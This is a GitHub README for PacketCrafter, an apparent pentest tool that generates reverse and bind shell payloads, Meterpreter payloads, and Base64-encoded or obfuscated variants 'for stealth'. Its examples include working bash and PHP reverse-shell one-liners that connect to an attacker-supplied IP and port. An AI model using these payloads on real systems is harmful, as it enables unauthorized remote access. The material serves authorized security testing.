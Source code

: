 # **PacketCrafter**

PacketCrafter is a versatile and intuitive payload generator for various reverse and bind shells. Designed with simplicity in mind, this tool is a powerful asset for penetration testers, ethical hackers, and cybersecurity enthusiasts. It supports multiple payload types, encoding, and obfuscation techniques to ensure seamless exploitation in controlled environments.

## **Features**

- **Bash Reverse Shell**: Generate bash payloads for reverse shell connections.  
- **Netcat Reverse Shell**: Create Netcat payloads to initiate reverse shells.  
- **Bash Bind Shell**: Produce bash payloads for bind shells, allowing connections from remote hosts.  
- **Meterpreter Reverse TCP**: Leverage `msfvenom` to create Meterpreter payloads for Windows systems.  
- **PHP Reverse Shell**: Generate PHP scripts for reverse shell execution.  
- **Python Reverse Shell**: Craft Python payloads for reverse shells over TCP.  
- **Windows Reverse Shell**: Use Netcat to generate reverse shell payloads for Windows.  
- **Payload Encoding**: Encode payloads in Base64 for stealth and bypass techniques.  
- **Payload Obfuscation**: Apply simple obfuscation techniques for added stealth.  

## **Requirements**

1. Linux-based operating system.  
2. Tools and dependencies:
   - `figlet` for banner display.
   - `msfvenom` for generating Meterpreter payloads.
   - `nc` (Netcat) for reverse and bind shells.  
3. Python 3.x (for specific reverse shells).  

## **Usage**

1. Clone the repository:
   ```bash
   git clone https://github.com/nirmal-92/PacketCrafter.git
   cd PacketCrafter
   ```

2. Make the script executable:
   ```bash
   chmod +x PacketCrafter.sh
   ```

3. Run the script:
   ```bash
   ./PacketCrafter.sh
   ```

4. Follow the menu options to generate the desired payload.

## **Menu Options**

Upon execution, you'll see a menu with the following options:

1. **Generate Bash Reverse Shell**  
2. **Generate Netcat Reverse Shell**  
3. **Generate Bash Bind Shell**  
4. **Generate Meterpreter Reverse TCP**  
5. **Generate PHP Reverse Shell**  
6. **Generate Python Reverse Shell**  
7. **Generate Windows Reverse Shell**  
8. **Encode Payload in Base64**  
9. **Obfuscate Payload**  
10. **Exit**  

## **Example Usage**

- **Bash Reverse Shell**  
  Enter the IP address and port to create the payload. The script generates a file named `bash_reverse_shell.sh`. Example payload:  
  ```bash
  bash -i >& /dev/tcp/<ip>/<port> 0>&1
  ```

- **PHP Reverse Shell**  
  Example payload saved as `php_reverse_shell.php`:  
  ```php
  <?php exec('/bin/bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"'); ?>
  ```

- **Base64 Encoding**  
  Encodes a payload into Base64 for stealthy deployment:
  ```bash
  base64 bash_reverse_shell.sh > bash_reverse_shell.sh.b64
  ```

## **Customization**

Feel free to customize the script to add additional payload types or advanced obfuscation techniques. Modify the functions in the script to suit your specific requirements.

## **Disclaimer**

**PacketCrafter is intended for educational purposes and authorized penetration testing only. Unauthorized use of this tool is strictly prohibited. The developers assume no responsibility for misuse.**

